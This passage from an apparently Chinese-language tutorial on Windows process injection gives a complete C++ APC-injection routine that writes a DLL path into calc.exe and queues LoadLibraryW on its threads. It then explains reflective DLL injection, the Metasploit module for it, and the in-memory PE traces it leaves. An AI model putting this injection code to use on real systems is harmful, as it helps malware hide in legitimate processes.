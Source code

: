     void main(){  DWORD pid;  vector<DWORD> tids;  if (FindProcess(L"calc.exe", pid, tids))   {    printf("OpenProcess\n");    HANDLE hProcess = ::OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION, FALSE, pid);    printf("VirtualAllocEx\n");    auto p = ::VirtualAllocEx(hProcess, nullptr, 1 << 12, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);    wchar_t buffer[] = L"c:\\test\\testdll.dll";    printf("WriteProcessMemory\n");    ::WriteProcessMemory(hProcess, p, buffer, sizeof(buffer), nullptr);    for (const auto& tid : tids)     {      printf("OpenThread\n");      HANDLE hThread = ::OpenThread(THREAD_SET_CONTEXT, FALSE, tid);      if (hThread)       {        printf("GetProcAddress\n");        ::QueueUserAPC((PAPCFUNC)::GetProcAddress(GetModuleHandle(L"kernel32"), "LoadLibraryW"), hThread, (ULONG_PTR)p);        }    }    printf("VirtualFreeEx\n");    ::VirtualFreeEx(hProcess, p, 0, MEM_RELEASE | MEM_DECOMMIT);  }}

  

反射型dll注入

  

反射DLL注入可以将加密的DLL保存在磁盘（或者以其他形式如shellcode等），之后将其解密放在内存中。之后跟DLL注入一般，使用VirtualAlloc和WriteProcessMemory将DLL写入目标进程。因为没有使用LoadLibrary函数，要想实现DLL的加载运行，我们需要在DLL中添加一个导出函数，ReflectiveLoader，这个函数实现的功能就是加载自身。

  

反射DLL注入实现起来其实十分复杂，需要对PE加载十分了解。通过编写ReflectiveLoader找到DLL文件在内存中的地址，分配装载DLL的空间，并计算
DLL 中用于执行反射加载的导出的内存偏移量，然后通过偏移地址作为入口调用 CreateRemoteThread函数执行。

  

msf已经有了相应的模块：

  

  * 

    
    
    windows/manage/reflective_dll_inject

  

在内存中，可以看到明显的PE标识：

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211015094914.png)

  

将其dump后

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211015094914.png)

  

放入PE查看工具，可看到其为正常的PE文件与RDI特有的名字：

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211015094916.png)

  

此类文件可配合sRdi使用，效果更佳。

  

DarkLoadLibrary
